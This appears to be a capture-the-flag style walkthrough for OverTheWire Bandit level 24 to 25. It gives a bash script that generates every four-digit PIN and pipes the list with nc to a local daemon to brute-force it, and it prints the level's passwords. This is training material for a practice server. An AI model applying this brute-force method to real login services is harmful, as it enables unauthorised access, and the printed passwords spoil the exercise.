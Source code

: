# OverTheWire Wargames

## Bandit Level 24 --> Level 25
### Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.



### Solution

Make bash script generate list of passwords in tmp dir
```console
bandit24@bandit:~$ mkdir /tmp/bandlev25
bandit24@bandit:~$ cd /tmp/bandlev25
bandit24@bandit:/tmp/bandlev25$ nano script.sh
bandit24@bandit:/tmp/bandlev25$ cat script.sh
#!/bin/bash

for i  in  {0000..9999}
  do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> list.txt
  done
```

Change mode of script to make it executable then run it
```console
bandit24@bandit:/tmp/bandlev25$ chmod 777 script.sh
bandit24@bandit:/tmp/bandlev25$ ./script.sh
bandit24@bandit:/tmp/bandlev25$ ls
list.txt script.sh
```

Give passwords list to daemon on port 30001
```console
cat list.txt |  nc localhost 30002
```

### Password
> uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

  
